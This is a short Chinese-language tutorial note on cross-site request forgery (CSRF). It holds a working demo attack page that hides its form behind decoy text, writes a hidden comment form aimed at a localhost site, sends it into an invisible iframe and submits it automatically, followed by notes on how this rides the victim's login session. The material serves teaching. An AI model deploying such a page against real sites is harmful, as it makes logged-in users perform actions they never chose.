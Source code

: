 #		跨站请求伪造攻击CSRF
+	Cross Site Request Forgy
+ 	跨站请求伪造攻击

```js
<body>
	hello，这里什么也没有。
	<script>
		document.write(`
			<form name="commentForm" target="csrf" method="post" 
			action="http://localhost:1521/post/addComment">
				<input name="postId" type="hidden" value="1">
				<textarea name="content">来自CSRF！</textarea>
			</form>`
		);

		var iframe = document.createElement('iframe');
		iframe.name = 'csrf';
		iframe.style.display = 'none';
		document.body.appendChild(iframe);

		setTimeout(function(){
			document.querySelector('[name=commentForm]').submit();
		},1000);
	</script>
</body>
```

+	一个单独的页面,通过js写了一个form表单,action中是你登录过得网站
+ 	创建一个iframe, 给一个name ,并且让form的target指向这个name
+  把iframe加入到页面中,一秒钟提交一次
	-	这样就可以利用你的登录状态,去做一些事情,这个时候你并不知情
	- 	提交的时候你并没有看到任何变化,是因为form的target指向了iframe

![avatar](./csrf.png)
